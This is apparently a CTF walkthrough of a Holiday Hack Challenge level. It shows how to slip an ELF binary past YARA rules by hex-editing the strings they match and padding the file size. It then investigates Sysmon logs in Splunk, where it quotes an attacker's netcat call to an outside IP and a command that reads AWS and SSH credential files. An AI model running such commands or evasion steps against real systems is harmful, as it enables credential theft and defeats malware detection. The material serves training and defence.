

# Challenge 9: Splunk!

> Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you when when you complete the analysis?

## The Hint

Fitzy has the following to say:

> Hiya, I'm Fitzy Shortstack!
>
> I was just trying to learn a bit more about YARA with this here Cranberry Pi terminal.
>
> I mean, I'm not saying I'm worried about attack threats from that other con next door, but...
>
> OK. I AM worried. I've been thinking a bit about how malware might bypass YARA rules.
>
> If you can help me solve the issue in this terminal, I’ll understand YARA so much better! Would you please check it out so I can learn?
>
> And, I’ll tell you what – if you help me with YARA, I’ll give you some tips for Splunk!
>
> I think if you make small, innocuous changes to the executable, you can get it to run in spite of the YARA rules.

Checking out the Yara terminal, we get the following prompt:

```bash
HELP!!!

This critical application is supposed to tell us the sweetness levels of our candy
manufacturing output (among other important things), but I can't get it to run.

It keeps saying something something yara. Can you take a look and see if you
can help get this application to bypass Sparkle Redberry's Yara scanner?

If we can identify the rule that is triggering, we might be able change the program
to bypass the scanner.

We have some tools on the system that might help us get this application going:
vim, emacs, nano, yara, and xxd

The children will be very disappointed if their candy won't even cause a single cavity.

snowball2@5aa06286b3fc:~$
```

Sure enough, attempting to run the app yields the following:

```bash
snowball2@5aa06286b3fc:~$ ll
total 44
drwxr-xr-x 1 snowball2 snowball2  4096 Dec  2 14:25 ./
drwxr-xr-x 1 root      root       4096 Dec  2 14:25 ../
-rw-r--r-- 1 snowball2 snowball2   220 Feb 25  2020 .bash_logout
-r-xr-xr-x 1 snowball2 snowball2  3926 Dec  2 14:25 .bashrc*
-r-xr-xr-x 1 snowball2 snowball2   807 Feb 25  2020 .profile*
-rw-r--r-- 1 root      root          0 Dec  2 14:25 .sudo_as_admin_successful
-rwxr-xr-x 1 snowball2 snowball2 16688 Nov 24 15:51 the_critical_elf_app*
drwxr-xr-x 1 root      root       4096 Dec  2 14:25 yara_rules/
snowball2@5aa06286b3fc:~$ ./the_critical_elf_app 
yara_rule_135 ./the_critical_elf_app
```

It looks like `yara_rule_135` is preventing us from running the application. Let's see if we can find out some more
information about this rule:

```bash
snowball2@5aa06286b3fc:~$ cat yara_rules/rules.yar | grep -e 'yara_rule_135 {$' -A11
rule yara_rule_135 {
   meta:
      description = "binaries - file Sugar_in_the_machinery"
      author = "Sparkle Redberry"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-21"
      hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
   strings:
      $s = "candycane"
   condition:
      $s
}
```

It appears that the yara rule is looking for the string `candycane` and blocking execution if present. Let's take a look
at the contents of the binary in vim. Once you open the file in vim, use `:%!xxd` to utilize vim as a hex editor. Search
for the string `candycane` with `/candycan` - note, because of how `xxd` aligns the hex, we are truncating the `e` here.
We can now see where the offending string exists:

```bash
00002000: 0100 0200 0000 0000 6361 6e64 7963 616e  ........candycan
00002010: 6500 6e61 7567 6874 7920 7374 7269 6e67  e.naughty string
00002020: 0000 0000 0000 0000 5468 6973 2069 7320  ........This is
00002030: 6372 6974 6963 616c 2066 6f72 2074 6865  critical for the
00002040: 2065 7865 6375 7469 6f6e 206f 6620 7468   execution of th
00002050: 6973 2070 726f 6772 616d 2121 0000 0000  is program!!....
00002060: 486f 6c69 6461 7948 6163 6b43 6861 6c6c  HolidayHackChall
00002070: 656e 6765 7b4e 6f74 5265 616c 6c79 4146  enge{NotReallyAF
00002080: 6c61 677d 0064 6173 7461 7264 6c79 2073  lag}.dastardly s
00002090: 7472 696e 6700 0000 011b 033b 3c00 0000  tring......;<...
```

Let's modify the string by changing the `y` to an `i` (`0x69`), revert back to normal mode with `:%!xxd -r`, and save
the binary. If we run the binary, we can now see that we are flagging on a different rule:

```bash
snowball2@2a17287ea097:~$ ./the_critical_elf_app 
yara_rule_1056 ./the_critical_elf_app
```

Let's check this rule out:

```bash
snowball2@2a17287ea097:~$ cat yara_rules/rules.yar | grep -e 'yara_rule_1056 {$' -A12
rule yara_rule_1056 {
   meta: 
        description = "binaries - file frosty.exe"
        author = "Sparkle Redberry"
        reference = "North Pole Malware Research Lab"
        date = "1955-04-21"
        hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
    strings:
        $s1 = {6c 6962 632e 736f 2e36}
        $hs2 = {726f 6772 616d 2121}
    condition:
        all of them
}
```

This rule is looking for the existence of two strings: `libc.so.6`, and `rogram!!`. Since our application is dynamically
linked to `libc.so.6`, we shouldn't mess with that value. Let's focus on the second string instead. Looking back at our
previous work, we see the phrase, `This is critical for the execution of this program!!`. Let's modify that to
read `This is critical for the execution of this program!.` instead using the same method as above.

We are caught on another rule:

```bash
snowball2@2a17287ea097:~$ ./the_critical_elf_app 
yara_rule_1732 ./the_critical_elf_app
snowball2@2a17287ea097:~$ cat yara_rules/rules.yar | grep -e 'yara_rule_1732 {$' -A31
rule yara_rule_1732 {
   meta:
      description = "binaries - alwayz_winter.exe"
      author = "Santa"
      reference = "North Pole Malware Research Lab"
      date = "1955-04-22"
      hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
   strings:
      $s1 = "This is critical for the execution of this program!!" fullword ascii
      $s2 = "__frame_dummy_init_array_entry" fullword ascii
      $s3 = ".note.gnu.property" fullword ascii
      $s4 = ".eh_frame_hdr" fullword ascii
      $s5 = "__FRAME_END__" fullword ascii
      $s6 = "__GNU_EH_FRAME_HDR" fullword ascii
      $s7 = "frame_dummy" fullword ascii
      $s8 = ".note.gnu.build-id" fullword ascii
      $s9 = "completed.8060" fullword ascii
      $s10 = "_IO_stdin_used" fullword ascii
      $s11 = ".note.ABI-tag" fullword ascii
      $s12 = "naughty string" fullword ascii
      $s13 = "dastardly string" fullword ascii
      $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii
      $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii
      $s16 = "GLIBC_2.2.5" fullword ascii
      $s17 = "its_a_holly_jolly_variable" fullword ascii
      $s18 = "__cxa_finalize" fullword ascii
      $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii
      $s20 = "__libc_csu_init" fullword ascii
   condition:
      uint32(1) == 0x02464c45 and filesize < 50KB and
      10 of them
}
```

Looking at the condition, there are a few things that need to be in place for this rule to trigger. It looks like a
value at the memory location `0x02464c45` needs to equal `1`, the file being evaluated needs to be less than `50KB`,
and `10` or more of the referenced strings need to exist. Let's try to bloat the filesize to beyond `50KB` by
adding `NOP` instructions to the end. This should get us around this check:

```bash
snowball2@2a17287ea097:~$ printf "%0.s\x90" {1..100000} >> the_critical_elf_app 
snowball2@2a17287ea097:~$ ./the_critical_elf_app 
Machine Running.. 
Toy Levels: Very Merry, Terry
Naughty/Nice Blockchain Assessment: Untampered
Candy Sweetness Gauge: Exceedingly Sugarlicious
Elf Jolliness Quotient: 4a6f6c6c7920456e6f7567682c204f76657274696d6520417070726f766564
```

Of note, the `Elf Jolliness Quotient` decodes to `Jolly Enough, Overtime Approved`.

The program runs successfully and we complete this challenge!  Here's what Fitzy has to say:

> Thanks - you figured it out!
>
> Let me tell you what I know about Splunk.
>
> Did you know Splunk recently added support for new data sources including Sysmon for Linux and GitHub Audit Log data?
>
> Between GitHub audit log and webhook event recording, you can monitor all activity in a repository, including common git commands such as git add, git status, and git commit.
>
> You can also see cloned GitHub projects. There's a lot of interesting stuff out there. Did you know there are repositories of code that are Darn Vulnerable?
>
> Sysmon provides a lot of valuable data, but sometimes correlation across data types is still necessary.
>
> Sysmon network events don't reveal the process parent ID for example. Fortunately, we can pivot with a query to investigate process creation events once you get a process ID.
>
> Sometimes Sysmon data collection is awkward. Pipelining multiple commands generates multiple Sysmon events, for example.
>
> Did you know there are multiple versions of the Netcat command that can be used maliciously? nc.openbsd, for example.

## The Main Challenge

Opening up the Splunk terminal, we are presented with the following guidelines:


We have `8` tasks to complete:

### Task 1

> Capture the commands Eddie ran most often, starting with git. Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.

We can run the following query to provide a table of the most frequent `git` commands:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine=git* | stats count by CommandLine | sort - count
```

Our answer is the first result: `git status`

### Task 2

> Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo. The correct one!

We can search for `git remote` commands:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine="git remote*" | table CommandLine
```

This provides a short list of remote operations including our answer where origin was set
to `git@github.com:elfnp3/partnerapi.git`

### Task 3

> The 'partnerapi' project that Eddie worked on uses Docker. Gather the full docker command line that Eddie used to start the 'partnerapi' project on his workstation.

Let's take a look at all the `docker` commands:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine="docker*" | table CommandLine
```

This produces a list of 19 events. The only one that would result in running a docker container is `docker compose up`,
which is our answer.

### Task 4

> Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks. Search all the events in the main index in Splunk and use the sourcetype field to locate these reports. Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here. You will need to search outside of Splunk (try GitHub) for the original name of the repository.

Let's run a basic search targeting the `main` index and see what other `sourcetypes` we have available:


`ghe_audit_log_monitoring` looks interesting, so let's click on that to view the 86 events assigned that source type.
Taking a look at the `action` property, let's now click on `git.clone` to see what clone actions occurred. We can see a
handful of events that show `elfnp3/dvws-node` was cloned, and a quick google shows the original URL of the repo
as `https://github.com/snoopysecurity/dvws-node` which is the answer.

### Task 5

> Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project. Determine the name of the library and record it here for our workshop documentation.

We can run a quick search to hunt for `npm install` commands:

```
index=main sourcetype=journald | where (CommandLine like "%npm%install%") | table CommandLine
```

This provides 7 events and our answer: `holiday-utils-js`

### Task 6

> Another elf started gathering a baseline of the network activity that Eddie generated. Start with their search and capture the full process_name field of anything that looks suspicious.

We start with the following query and results:



We can make a simple modification to display the process_name in the table:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) | stats count by dest_ip dest_port process_name
```

This provides us with our answer: `/usr/bin/nc.openbsd`

### Task  7

> Uh oh. This documentation exercise just turned into an investigation. Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here.

We can inspect the above result a bit more and see that the PID of our suspect process is `6791`. As the prompt
suggests, we need to be searching for process creation events:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 PID=6791
```

Now we can see our parent process id, which is `6788`. Let's see what else this process has been up to:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational parent_process_id=6788 | table CommandLine
```

This gives us a table of the following commands:

```
nc -q1 54.175.69.219 16842
cat /home/eddie/.aws/credentials /home/eddie/.ssh/authorized_keys /home/eddie/.ssh/config /home/eddie/.ssh/eddie /home/eddie/.ssh/eddie.pub /home/eddie/.ssh/known_hosts
```

Our answer is the number of files that were `cat`, which is `6`

### Task 8

> Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.

We can start by getting all commands that ran a bash script:

```
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational | where (CommandLine like "%.sh%") | table CommandLine
```

We get a fairly short list back (only 9 results), and visually scanning through we can see that most involve docker
operations. One script remains: `preinstall.sh` which is our answer.

Once complete, Santa says we are a `whiz` which is the answer to the overall challenge.